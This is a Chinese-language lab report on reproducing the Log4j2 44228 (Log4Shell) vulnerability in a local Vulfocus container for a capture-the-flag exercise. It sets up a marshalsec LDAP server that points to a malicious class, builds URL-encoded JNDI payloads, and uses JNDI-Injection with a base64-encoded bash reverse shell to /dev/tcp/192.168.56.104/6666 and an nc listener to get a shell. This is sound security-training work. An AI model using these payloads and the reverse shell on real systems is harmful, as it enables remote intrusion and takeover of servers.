# 实验报告：Log4j2 44228漏洞环境搭建、漏洞验证与漏洞利用复现
## 一、实验目的
    搭建Log4j2 44228漏洞环境。
    验证漏洞的存在。
    利用漏洞获得flag

## 二、实验环境

### 操作系统：
1. Kali Linux
2. Java版本：JDK 1.8.0 202
3. Log4j2:
4. 测试工具：JNDI injector

## 三、实验步骤
### （一）漏洞环境搭建

    安装Java环境,下载并安装JDK1.8.0,验证java版本。


    使用docker pull vulfocus/vulfocus:latest，编写vulfocus启动脚本,-d 是后台运行


    赋予执行权限之后就可以运行这个脚本启动了

    去镜像管理界面点击一键同步，搜索log4j2找到远程命令执行漏洞2，点击下载


### （二）漏洞验证
    去首页启动该镜像，记住映射端口号


    在浏览器中输入靶机网址：端口号，显示网页


    在攻击者主机安装ldap server，编写启动脚本
1. marshalsec-0.0.3-SNAPSHOT-all.jar是反序列化利用工具
2. maeshalsec.jndi.LDAPRefServer用于启动LDAP服务
3. 指定恶意类的 URL 为"https://192.168.56.104:8080/#Exploit"


    这个ldap服务器是用于在目标主机出发jndi查询的时候返回一个http的引用，运行此脚本


    记住这个端口，构造payload，并使用url对其编码


    复制编码，将其粘贴到payload=后面，并访问，显示ok


    攻击者主机上面显示了查询记录，这可能并不能验证log4j2漏洞存在，但我们可以利用这个查询记录功能


    构造一个带有test.${java.version}的payload，并将其用url编码，这个部分如果被执行，则会得到目标主机的java版本，然后会通过查询记录的方式显示到攻击者主机上。


    访问后攻击者主机上显示了带有java版本的查询记录，这表示目标主机解析了url编码，运行了java.version，并在攻击者主机上留下了记录，可以验证漏洞存在


    

### （三）漏洞利用复现
    安装JNDI-Injection，编写启动脚本，赋予权限。
1. 带有-SNAPSHOT-all.jar的是反序列化利用工具
2. -C 后面接的是想运行的代码的base64编码 bash -i >& /dev/tcp/192.168.56.104/6666 0>&1
3. bash -i是启动一个交互式的bash shell，-i意思是interactive
4. \>& 是重定向操作符，用于将标准输出和标准错误



    启动脚本，选择trustURLCodebase is false的那项


    使用nc -lvvp 6666监听6666端口


    构造payload


    拿到shell


    在tmp文件夹中找到flag

